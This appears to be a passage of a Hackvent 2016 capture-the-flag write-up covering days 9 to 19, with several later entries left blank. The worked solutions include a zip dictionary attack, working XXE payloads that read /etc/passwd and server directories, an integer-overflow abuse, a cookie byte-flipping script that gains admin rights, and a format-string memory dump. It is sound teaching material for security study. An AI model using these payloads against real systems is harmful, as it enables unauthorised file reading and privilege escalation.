I've heard something about illegal prime numbers... Maybe this number contains the flag:

```
43158911230545192278004252344390244064068059909839469541549566950124312835516574175851795
74642755601169096280017484467053951914982126613234225200384245049037787654523558017678649
27807671610820027192757579149792909218423881361984672931551823792488162360311109497907128
60174071535290430666553883163784576942915907036813417525614927231374744822633736732102486
33961843479034160811982934510083276506238457901538373531195688165166964398815874378480986
164601388393975141268984935852959700100872597068350527482364309
```

**Solution**  

Illegal primes or numbers are the idea that by making certain programs/files illegal, their
numerical representation is also illegal. Therefore this number likely represents some files
containing our flag.

Lets convert it to binary data:

```python
import binascii

p=4315891123054519227800425234439024406406805990983946954154956695012431283551657417585179574642755601169096280017484467053951914982126613234225200384245049037787654523558017678649278076716108200271927575791497929092184238813619846729315518237924881623603111094979071286017407153529043066655388316378457694291590703681341752561492723137474482263373673210248633961843479034160811982934510083276506238457901538373531195688165166964398815874378480986164601388393975141268984935852959700100872597068350527482364309
p2 = binascii.unhexlify(hex(p)[2:-1])
p3 = bytearray(p2)

with open("dec9out",'w') as outfile:
    outfile.write(p2)
```

This gives us a [zip file](writeupfiles/dec9.zip):

```bash
$ file dec9out
dec9out: Zip archive data, at least v2.0 to extract
```

The zipfile is password protected, but is found easily using a dictionary attack:

```bash
$ fcrackzip -v --use-unzip -D -p /path/to/wordlists/passwords dec9out
found file 'Flag.txt', (size cp/uc     43/    29, flags 9, chk 0a91)
checking pw buigts                                  

PASSWORD FOUND!!!!: pw == qwerty
```

So the password is `qwerty`. The `Flag.txt` file inside the zip file contained the flag.


**Nugget**

```
HV16-0228-d75b-40cd-8a0e-1f3e
```


## Dec 10: I want to play a Game  

**Challenge**  

Reversing Day 1: we'll start with an easy one.

[Gimme that thing!](writeupfiles/ReGame_Part1.zip)

**Solution**  

we unzip the file and find and a playstation executable:

```bash
$ strings HV16.EXE
PS-X EXE
Sony Computer Entertainment Inc. for Japan area
0123456789ABCDEF
$Id: sys.c,v 1.140 1998/01/12 07:52:27 noda Exp yos $

[..]

wwc4$
decrypt the flag you n00b
KR40*^d?r!CdhX<w$\`B;G
T{6*,TW
Library Programs (c) 1993-1997 Sony Computer Entertainment Inc., All Rights Reserved.
```

Hmm, the string `KR40*^d?..` looks like it might be an encrypted flag, with some trial
and error we find that

```python
>>> ord('K') ^ ord('H')
3
>>> ord('R') ^ ord('V')
4
>>> ord('4') ^ ord('1')
5
>>> ord('0') ^ ord('6')
6
```

Ok, that's a clear pattern! Let's do it for the whole string!

```python
s="KR40*^d?r!CdhX<w$`B;G\x7fT{6*,TW"

pt=''
count = 3
for c in s:
    pt += chr(ord(c) ^ count)
    count += 1

print pt
```

**Nugget**

```
HV16-Vm5y-NjgH-e7tW-PgMa-61JH
```

## Dec 11: A-maze-ing GIFt  

**Challenge**  

*Go find the codes!*

Will you manage to recover today's code from this strange picture?

It looks like a maze of some kind, and somewhere deep inside there might be more than what you'd expect at the first glance...


**Solution**  

This is clearly a QR code we have to fix, the title hints at a maze. We see some lines are very light
and not clear to the naked eys, so we make anything that is not white black:


Now we simply start coloring the corners, and any areas adjacent to black we make white and vice versa
to get the nugget:


**Nugget**
```
HV16-otli-KbAg-MDVb-TMTO-WTDI
```

## Dec 12: Crypt-o-Math  

**Challenge**  

*Crypto? Math? Maybe both?*

you remember math classes at school?

hopefully you payed attention - and even if not, there are other ways to solve this challenge.

```
-----BEGIN HV16 CHALLENGE-----
m,b,p
260492575707724061121829547730531689268,219331109722881671601619265628380637246,264919855316001119104226076800779561423
177037883108301921298501682022541052670,139010999389216475313896172223515984938,320424365363679773525372180610490277297
201530751445587644733838605908487065258,156283960365344379794603462644218812025,260817421396746284411005790925469586671
243507266865305317073588348849175479231,228672633794460367905186619683512549913,311961837617653522368820984616392093801
235979373536480839808082706396503872744,193357134507240975900584464141934560197,272109227670221371468387040437351965901
230551569853098007600677345727280344755,287930781315318970473254677546577038359,267938315516895485484707051396200706443
243574932572443222972750303823800502163,301120142698243924290763614435454565780,298644815229643145404450351035804160241
227879528304283891530899499744980291425,259647428751561260984852593239590962832,269635859822490692863508746527322139429
193780289185955117334123511554895799539,230518059194860774985531587526031582924,207593226880414101384701594893426311937
195425447990038725090924967791915486200,211074736770197591575170253798012315012,268179617336236355437933191393015865423
182160695615960388203641943769582257756,226052690185182197055109796183513576908,206467790630567275126889799309355179359
270365608703884312725165910007312396490,213419845252996446560398094913250521674,324158008615298179424325819513870548587
201137118708843924452456973486310609161,159816376238003107002192693657105630045,290037217831618223964293971372160917859
173038113384777542289872672569239525188,189558894159177271916644208007912631998,183921485447992361971839173200969564297
203079462849536394511816713024005910404,265255113893859933710071781082768935284,214860441818087898101519465166073705553
175435955454496700514946039667711586185,321302129754052602637931061925096198926,176882035352883165226937995777991718197
200701714682593432395729715130128082931,240366172083509768840032993181552166546,262938198945065824235502495190974734479
299752902236935158362307014205359355636,235711956783855914923056820687273121476,332555996220370247549433065033032955347
215902963387633985679795544753434436743,271635699405692295953353834140161222963,234686602415496986215568540582391915559
205034325176731455396463659428717818520,272071326791294957481838950480920388378,206409649750015144058460651952033121471
186202058515529112089774144624697652752,254056783751113612320599805874190538383,203950808577618100941828939328974427763
287901749499474956286121649902808545796,182193516067311697257425115832952178725,310661715406253093730218700854274682783
188797174721730846063832466557549096934,204289631640363328059573883403131553162,202398097602736311826665715995283701469
173276488624612107075891981111532248427,143340215883386310219352729908142093188,310272112653851647580237588097526878451
300899937001700644581647299928269672025,333680929290782211826332325236347007941,313491113294105066840003438756384124923
179363152345949876980223861387117154037,192660289980311571512766813788452507319,191173487237342005980035033206582186319
274297779066581320003362916911839787292,230968818301666954768423827202499074222,280249595392717543321356899242915413241
173512792712172909456131993539106342879,276670255129140880258696821649524107343,176080436791985260266403840744627297429
217267141898619422837859646397422811530,192415481924499182031594124394175595334,261771203728758901533499406756951694139
m = a * 0x1337 * b % p
a=flag
-----END HV16 CHALLENGE-----
```

**Solution**  

Seems clear we would need to find `a` for each set of `(m,b,p)`, since there are 29 such tuples, it is safe to assume
each encodes one letter of the flag.

There is surely a direct way to compute this, but my modular arithmetic is a bit rusty, so just going to bruteforce it:


```python
cts=[[260492575707724061121829547730531689268,219331109722881671601619265628380637246,264919855316001119104226076800779561423],
[177037883108301921298501682022541052670,139010999389216475313896172223515984938,320424365363679773525372180610490277297],
[201530751445587644733838605908487065258,156283960365344379794603462644218812025,260817421396746284411005790925469586671],
[243507266865305317073588348849175479231,228672633794460367905186619683512549913,311961837617653522368820984616392093801],
[235979373536480839808082706396503872744,193357134507240975900584464141934560197,272109227670221371468387040437351965901],
[230551569853098007600677345727280344755,287930781315318970473254677546577038359,267938315516895485484707051396200706443],
[243574932572443222972750303823800502163,301120142698243924290763614435454565780,298644815229643145404450351035804160241],
[227879528304283891530899499744980291425,259647428751561260984852593239590962832,269635859822490692863508746527322139429],
[193780289185955117334123511554895799539,230518059194860774985531587526031582924,207593226880414101384701594893426311937],
[195425447990038725090924967791915486200,211074736770197591575170253798012315012,268179617336236355437933191393015865423],
[182160695615960388203641943769582257756,226052690185182197055109796183513576908,206467790630567275126889799309355179359],
[270365608703884312725165910007312396490,213419845252996446560398094913250521674,324158008615298179424325819513870548587],
[201137118708843924452456973486310609161,159816376238003107002192693657105630045,290037217831618223964293971372160917859],
[173038113384777542289872672569239525188,189558894159177271916644208007912631998,183921485447992361971839173200969564297],
[203079462849536394511816713024005910404,265255113893859933710071781082768935284,214860441818087898101519465166073705553],
[175435955454496700514946039667711586185,321302129754052602637931061925096198926,176882035352883165226937995777991718197],
[200701714682593432395729715130128082931,240366172083509768840032993181552166546,262938198945065824235502495190974734479],
[299752902236935158362307014205359355636,235711956783855914923056820687273121476,332555996220370247549433065033032955347],
[215902963387633985679795544753434436743,271635699405692295953353834140161222963,234686602415496986215568540582391915559],
[205034325176731455396463659428717818520,272071326791294957481838950480920388378,206409649750015144058460651952033121471],
[186202058515529112089774144624697652752,254056783751113612320599805874190538383,203950808577618100941828939328974427763],
[287901749499474956286121649902808545796,182193516067311697257425115832952178725,310661715406253093730218700854274682783],
[188797174721730846063832466557549096934,204289631640363328059573883403131553162,202398097602736311826665715995283701469],
[173276488624612107075891981111532248427,143340215883386310219352729908142093188,310272112653851647580237588097526878451],
[300899937001700644581647299928269672025,333680929290782211826332325236347007941,313491113294105066840003438756384124923],
[179363152345949876980223861387117154037,192660289980311571512766813788452507319,191173487237342005980035033206582186319],
[274297779066581320003362916911839787292,230968818301666954768423827202499074222,280249595392717543321356899242915413241],
[173512792712172909456131993539106342879,276670255129140880258696821649524107343,176080436791985260266403840744627297429],
[217267141898619422837859646397422811530,192415481924499182031594124394175595334,261771203728758901533499406756951694139]]

alphabet="-ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuwyz0123456789"

pt=''
for (m,b,p) in cts:
    for c in alphabet:
        if (ord(c)*0x1337*b)%p == m:
            pt += c
print pt
```

This spits out our nugget :)

**Nugget**

```
HV16-laWz-D5yT-0Uzb-DFj0-FIsL
```

## Dec 13: JCoinz   

**Challenge**  

*Sometimes less is more*

The manager of jcoinz told a developer to implement a transaction tax as fast as possible so he can earn more money. Maybe that was a wrong decision...

`nc challenges.hackvent.hacking-lab.com 3117`

[jcoinz.jar](writeupfiles/jcoinz.jar)

**Solution**  

We start by decompiling the jar file to get the [source files](writeupfiles/jcoinz_source).

Account.java:

```java
public class Account {
    private String name;
    private int coins;

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getCoins() {
        return this.coins;
    }

    public void setCoins(int coins) {
        this.coins = coins;
    }

    public boolean payCoins(int amount) {
        int decreasedCoins;
        if (this.getCoins() <= 0) {
            IO.printStatus("-", "No more jcoinz!\n\n");
            return false;
        }
        if (amount < 0) {
            amount *= -1;
        }
        if ((decreasedCoins = this.getCoins() - amount - Shop.transactionTax) < 0) {
            IO.printStatus("-", "You cannot generate debts!\n\n");
            return false;
        }
        this.setCoins(decreasedCoins);
        IO.printStatus("-", "Decreased the account of \"" + this.getName() + "\" by " + String.valueOf(amount) + "\n");
        return true;
    }

    public Account(String name, int coins) {
        this.name = name;
        this.coins = coins;
    }
}
```

IO.java

```java
import java.io.InputStream;
import java.io.PrintStream;
import java.util.Scanner;

public class IO {
    public static void printStatus(String status, String message) {
        System.out.print("[" + status + "] " + message);
    }

    public static Scanner getUserInput(String question) {
        IO.printStatus("?", question);
        return new Scanner(System.in);
    }
}
```

Shop.java

```java
import javax.xml.transform.Source;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import javax.xml.transform.TransformerException;
import javax.xml.transform.TransformerFactory;
import javax.xml.transform.dom.DOMSource;
import javax.xml.transform.stream.StreamResult;
import org.w3c.dom.Document;
import org.w3c.dom.Node;
import org.xml.sax.SAXException;

public class Shop {
    public static int transactionTax = 2;

    public static void sendToAdmin(Account acc) {
        if (acc.payCoins(1337)) {
            String secretMessage = IO.getUserInput("XML Message: ").nextLine();
            DocumentBuilderFactory xmlDocumentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder xmlDocumentBuilder = null;
            Document xmlDocument = null;
            try {
                xmlDocumentBuilder = xmlDocumentBuilderFactory.newDocumentBuilder();
            }
            catch (ParserConfigurationException e) {
                e.printStackTrace();
            }
            try {
                xmlDocument = xmlDocumentBuilder.parse(new ByteArrayInputStream(secretMessage.getBytes()));
            }
            catch (SAXException e) {
                e.printStackTrace();
            }
            catch (IOException e) {
                e.printStackTrace();
            }
            TransformerFactory xmlTransformerFactory = TransformerFactory.newInstance();
            Transformer xmlTransformer = null;
            try {
                xmlTransformer = xmlTransformerFactory.newTransformer();
            }
            catch (TransformerConfigurationException e1) {
                e1.printStackTrace();
            }
            xmlTransformer.setOutputProperty("omit-xml-declaration", "yes");
            StringWriter xmlWriter = new StringWriter();
            try {
                xmlTransformer.transform(new DOMSource(xmlDocument), new StreamResult(xmlWriter));
            }
            catch (TransformerException e) {
                e.printStackTrace();
            }
            IO.printStatus("+", "Your secret xml message: " + xmlWriter.getBuffer().toString() + "\n\n");
        }
    }

    public static void sendToCharity(Account acc) {
        if (acc.payCoins(IO.getUserInput("Amount of jcoinz to send: ").nextInt())) {
            IO.printStatus("+", "Thank you very much!\n\n");
        }
    }
}
```

MainRunner.java

```java
import java.io.PrintStream;

public class MainRunner {
    public static void showWelcome() {
        System.out.println("$$$$$$$$$$$$$$$$$$\n$ JCOINZ SERVICE $\n$$$$$$$$$$$$$$$$$$\n");
    }

    public static void showMenu(Account acc) {
        System.out.println("1 - sends jcoinz to charity\n2 - send a secret xml message to the admin \nYour name: " + acc.getName() + "\n" + "Your amount of jcoinz: " + String.valueOf(acc.getCoins()) + "\n");
    }

    /*
     * Exception decompiling
     */
    public static void main(String[] args) {
        // This method has failed to decompile.  When submitting a bug report, please provide this stack trace, and (if you hold appropriate legal rights) the relevant class file.
        // org.benf.cfr.reader.util.CannotPerformDecode: reachable test BLOCK was exited and re-entered.
        // org.benf.cfr.reader.bytecode.analysis.opgraph.op3rewriters.Misc.getFarthestReachableInRange(Misc.java:143)
        // org.benf.cfr.reader.bytecode.analysis.opgraph.op3rewriters.SwitchReplacer.examineSwitchContiguity(SwitchReplacer.java:385)
        // org.benf.cfr.reader.bytecode.analysis.opgraph.op3rewriters.SwitchReplacer.replaceRawSwitches(SwitchReplacer.java:65)
        // org.benf.cfr.reader.bytecode.CodeAnalyser.getAnalysisInner(CodeAnalyser.java:423)
        // org.benf.cfr.reader.bytecode.CodeAnalyser.getAnalysisOrWrapFail(CodeAnalyser.java:217)
        // org.benf.cfr.reader.bytecode.CodeAnalyser.getAnalysis(CodeAnalyser.java:162)
        // org.benf.cfr.reader.entities.attributes.AttributeCode.analyse(AttributeCode.java:95)
        // org.benf.cfr.reader.entities.Method.analyse(Method.java:355)
        // org.benf.cfr.reader.entities.ClassFile.analyseMid(ClassFile.java:768)
        // org.benf.cfr.reader.entities.ClassFile.analyseTop(ClassFile.java:700)
        // org.benf.cfr.reader.Main.doJar(Main.java:134)
        // org.benf.cfr.reader.Main.main(Main.java:189)
        throw new IllegalStateException("Decompilation failed");
    }
}
```

We start with `1336` coins, and need `1337` in order to write an XML message to the admin (and
presumably exploit that to find the nugget), but we can only give away coins, not add them..

The hint is `Sometimes less is more` ..so we think integer overflow; subtract so much we get
positive integer again. For instance, we know that `System.out.println(-1 - Integer.MIN_VALUE)`
gives as output `2147483647`. This is what we aim for, there are, however, a few limitations:

1. If a negative number is entered, it is multiplied by -1
2. A tax is added to every transaction, 2 more coins than what you give away are subtracted from your total
3. If the result of the transaction would be a negative balance, it is not processed

First, note that `-1*Integer.MIN_VALUE` is still `Integer.MIN_VALUE` so this circumvents the first limitation.

The tax will actually help us to get this done. As the result of our transactions can not be negative,
we cannot get a balance of -1, which is what we would like so that we can subtract `INT_MIN`, but, if
we first get our balance down to +1, then the tax will get us to -1 after which our value will be
subtracted, and then we're rich!

So we can do this in two transactions, first give away `1333` coins, and then we give away
`Integer.INT_MIN` (`-2147483648`) coins, which with the added tax will give us the integer
overflow we want.

```
nc challenges.hackvent.hacking-lab.com 3117

$$$$$$$$$$$$$$$$$$
$ JCOINZ SERVICE $
$$$$$$$$$$$$$$$$$$

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 1336

[?] Action: 1
[?] Amount of jcoinz to send: 1333
[-] Decreased the account of "billy" by 1333
[+] Thank you very much!

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 1

[?] Action: 1
[?] Amount of jcoinz to send: -2147483648
[-] Decreased the account of "billy" by -2147483648
[+] Thank you very much!

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147483647
```

Now we have enough coins to send an XML message! Now we need to figure out how to
abuse this to read the flag from the server..

From Wikipedia entry on XXE exploits: `https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing` :

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

to show contents of `/etc/passwd/`. Since we don't know which file we need, we can adapt it to list contents of
base directory

```
# list files in root directory
<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///" >]><foo>&xxe;</foo>
```

Yes! this works:

```
$ java -jar jcoinz.jar
$$$$$$$$$$$$$$$$$$
$ JCOINZ SERVICE $
$$$$$$$$$$$$$$$$$$

[..]

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147482308

[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///" >]><foo>&xxe;</foo>
[+] Your secret xml message: <foo>.rpmdb
bin
boot
cdrom
dev
etc
export
home
initrd.img
initrd.img.old
lib
lib32
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
</foo>

```

So we check in the `home` folder, and by repeatedly sending xml messages we eventually find a file in
`/home/jcoinz` that contains the flag:


```
$ nc challenges.hackvent.hacking-lab.com 3117
$$$$$$$$$$$$$$$$$$
$ JCOINZ SERVICE $
$$$$$$$$$$$$$$$$$$

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 1336

[?] Action: 1
[?] Amount of jcoinz to send: 1333
[-] Decreased the account of "billy" by 1333
[+] Thank you very much!

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 1

[?] Action: 1
[?] Amount of jcoinz to send: -2147483648
[-] Decreased the account of "billy" by -2147483648
[+] Thank you very much!

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147483647

[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home" >]><foo>&xxe;</foo>
[+] Your secret xml message: <foo>jcoinz
</foo>

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147480969

[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home/jcoinz" >]><foo>&xxe;</foo>
[+] Your secret xml message: <foo>9f40461baba9bf00ba9174beeeb9b8a80c0ffba6
jcoinz.jar
</foo>

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147479630

[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home/jcoinz/9f40461baba9bf00ba9174beeeb9b8a80c0ffba6" >]><foo>&xxe;</foo>
[+] Your secret xml message: <foo>
You did it!

Greets, MuffinX

HV16-y4h0-g00t-d33m-c01n-zzzz

If you liked this challenge, tweet me: https://twitter.com/muffiniks
</foo>

1 - sends jcoinz to charity
2 - send a secret xml message to the admin
Your name: billy
Your amount of jcoinz: 2147478291

[?] Action:
```

**Nugget**

```
HV16-y4h0-g00t-d33m-c01n-zzzz
```

## Dec 14: Radio Wargame  

**Challenge**  

*The quieter you become, the more you are able to hear*

A UK football fan transmits chants and hopes the gods of football pick it up and consider his favorite, Manchester, to win the cup.

Santa, while using his ham radio station to receive wish-lists from earth, picked it up and saved a copy for his data lake. Can you help Santa to make sense of the signals?

**Solution**  

We open the file in audacity:


and manually decode using Manchester encoding (as indicated by challenge description)


```
01001000 01010110 00110001 00110110 00101101 00110001 00110011 00110011 00110111 00101101 01010010 01100001 01100100 01101001 00101101 01101111 01010111 01100001 01110010 00101101 01100111 01100001 01101101 01100101 00101101 00110001 00110011 00110011 00110111
```

This gives us the nugget when converted to ascii

**Nugget**

```
HV16-1337-Radi-oWar-game-1337
```

## Dec 15: SAP - Santas Admin Panel

**Challenge**  

*you better know how to flip around*

You got access to Santa's hompage. But without admin rights there's nothing to see here...

A valid login is: raindeer10 / s4nt4

[Admin Panel](http://challenges.hackvent.hacking-lab.com/4dm1nP4n3l/index.php)

**Solution**  

We log in to the site with the provided credentials, navigate to the admin panel and see this:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Hackvent 2016</title>
    <link rel="stylesheet" type="text/css" href="./css/main.css">
</head>
<body>
    <div class="background-container"></div>
    <ul class="navbar">
        <div class="user-info">
            <a>Logged in as: raindeer10</a>
            
            <a>User Role: Standard</a>
        </div>
        <li><a href="main.php">Home</a></li>
        <li><a href="admin.php">Adminpanel</a></li>
        <li><a href="main.php?action=logout">Logout</a></li>
    </ul>
    <div class="home">
        <div class="flag_container">
            <p>Only for admins and h4x0rs!</p>
            <p>Flag not shown!</p>
        </diV>
    </div>
</body>
</html>
```

So our role is `Standard` and we get a message that the flag is not shown, so presumably we need to change our role

we notice a cookie:

```
Cookie: cmlnaHRz=5WT4yVGAfS%2Fn0z5MzSbbZd0K3vpWLmhfxuFo85apE%2Bo%3D; PHPSESSID=kj2snoalv4a0d5v3du0oa1rvv4
```

and `cmlnaHRz` is base64 for `rights` so presumably we have to edit that cookie somehow to change our role.

If we do this randomly, we get `Role=None` so need to be smart about it... hint suggests *flipping around*
but what? ..bits? bytes?

To see which bytes give a different role when changed, we increase each of them in turn and see what we get:

```python
import requests
import base64
import urllib
import binascii

url="http://challenges.hackvent.hacking-lab.com/4dm1nP4n3l/admin.php"

rights="5WT4yVGAfS/n0z5MzSbbZd0K3vpWLmhfxuFo85apE+o="

cookie=dict(PHPSESSID="0aim1o2udt333jht40ls9c9mj4",cmlnaHRz=urllib.quote_plus(rights))
hexcookie = binascii.hexlify(base64.b64decode(rights))

new=''
for i in range(0,len(hexcookie),2):
    new += hex(int(hexcookie[i:i+2],16)+1)[2:].zfill(2)

for i in range (0,64):
    newrights = hexcookie[0:i]+new[i:i+2]+hexcookie[i+2:]

    cookie=dict(PHPSESSID="0aim1o2udt333jht40ls9c9mj4",cmlnaHRz=urllib.quote_plus(newrights))

    r=requests.get(url,cookies=cookie)

    for line in r.text.split('\n'):
        if "Role" in line and "Admin" in line:
            print r.text
```

Huh! this already got us an admin role in a few of the cases, neat!

```
<!DOCTYPE html>
<html>
<head>
    <title>Hackvent 2016</title>
    <link rel="stylesheet" type="text/css" href="./css/main.css">
</head>
<body>
    <div class="background-container"></div>
        <ul class="navbar">
            <div class="user-info">
                <a>Logged in as: raindeer10</a>
                
                <a>User Role: Admin</a>
            </div>
            <li><a href="main.php">Home</a></li>
            <li><a href="admin.php">Adminpanel</a></li>
            <li><a href="main.php?action=logout">Logout</a></li>
        </ul>
        <div class="home">
            <div class="flag_container">
                <p>Congratulations! You are a 1337 h4x0r!</p>
                <p>Please get the flag!</p>
                
            </div>
        </div>
</body>
</html>
```

so we are given the location of our flag, `./img/a1be12d908971ecbebfeb1d5d2874464.png`


**Nugget**

```
HV16-R41n-d33r-8yt3-Fl1p-H4ck
```


## Dec 16: Marshmallows
type: "nomnomnom marhshmallow nomnomnom muffin%x was here"

**Challenge**  
There's this guy Randy, he loves marshmallows and programming in python and C.
Prove him by hacking his server, that it's not a good idea to code if you had too many marshmallows.

nc challenges.hackvent.hacking-lab.com 1033


**Solution**  
Following their hint, I connect and type the string:

```
> 1
[+] Please give me some marshmallows: nomnomnom marhshmallow nomnomnom muffin%x was here
nomnomnom marhshmallow nomnomnom muffin968900 was here
[+] Menu
```

Which naturally leads to asking:

```
[+] Please give me some marshmallows: %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
9689001c9aed885c8a785c8a77532dd3ab929430b9293e01b21d40cb929378b92937cb929390010b9292e01c2a0340b9294300b9294e0b92923008b9
2938cb929388b929390111b929430b929540b18a7400b929480b929430b9294e00b9294101b9295401b42f12d1b63883042b9294602b9294601b4317
3c0206a120b9295401b42d56eb9294601b42f03f1b638830206a120206a140006e0b929460b9294501ea422001c2a034001101b9294501fef3b81b65
0a481c60a7602b9293f01c894e5800b18a7400b9295c01b17643001b648c88001b666ee81b42f6a31c2a0340001ea4220001b6a9688206aa10696373
611ca136c01ca1ac18206aa101b648c881b650a481f0dcf81c9aab591b648c881f0db781b1764301ea4220048a487000001c2d0f891c9aaa281f0dcf
01c9fca981f0dcf001c93d3001c9401e0121f0dcf0101f0dcf01c9aaa561f0db781c961d8801ea42201f0dcf81f604101ea40701c9401e001c9401e0
1c9401e0509d991c916ea01c9a73c881c9401e01f0db781f0dcf01ea42200048e45b1ea4070001edd5d0000001c9401e01f72a405595b31015238ce0
1edd5d01c8a34881c9401e01c9a73c81c9a73c8011f72a4048f15b0000011f72a405597301c8a07c01ea40701f048d04793c5b92998001ea40701c84
54d51c9a73c81c9a73c81c9674381c9a73c81c8a22901c9a64a81f048d01c8a22ae14797a2b929980ffffffffb9299800b9221231c8a22901f048d01
c8a071001ea40e011c8a227005bfaa006e1f048d0001c3c9d0101c3c9df6fd04815b0f181c400840100085854103c3ad01a8e584e04b30584e06ca1f
355ed1000031ea40401ea401001ea4070347d9f41ea40702b929aa00056d55cb929b80001c26df450b929b88047d8c0041b709aa56d55cb929b80007
4d709aafc4d09aa0005c13f0b929b8830056d55cb929b80056d585b929b781c3b92ae93b92ae9bb92ae9e0b92aec1b92aed7b92aef3b92af0bb92af2
0b92af3ab92af502062a80b92af82b92afc4b92afd4b92afda021b9bd00010fabfbff61000116434000404385971c82f00080956d55cb3e8c3e8d3e8
e3e817019b929d491fb92afe7fb929d590008a74c3002920dbaa36387884000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0000000000000000000
```


**Nugget**

```
HV16-
```

## Dec 17: I want to play a Game

**Challenge**  
so, you enjoyed the first part? that was soooo 90ties - here is something more modern for you to play.


**Solution**  

```
writeupfiles/ReGame_2nd_Part_modern.velf: ELF 32-bit LSB ARM, EABI5 version 1 (SYSV)

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB processor-specific, ARM, version 1 (SYSV)
```

**Nugget**

```
HV16-
```


## Dec 19: Zebra Code

**Challenge**  

*Get it straight*

Get the key and the encrypted message.

**Solution**  
We're given a .png file with a black and white zebra, as well as an SVG file
containing points. Naively assumed that points in SVG file map to positions on
the zebra, and attempted to extract those pixels. The results are very
black/white like one would expect. However extracting those pixel values doesn't
produce legible data. Additionally the number of points is different from what we
would expect if that was simply the encoding (4 chars too long)

I wonder what it means to "get it straight". Maybe determine angles between
points? No luck there either, still looks like garbage data.

Maybe an extra level of encryption between the two? One is a binary key and the
other a binary message? Argh.


**Nugget**

```
HV16-
```


## Dec X: Title  

**Challenge**  
**Solution**  
**Nugget**

```
HV16-
```
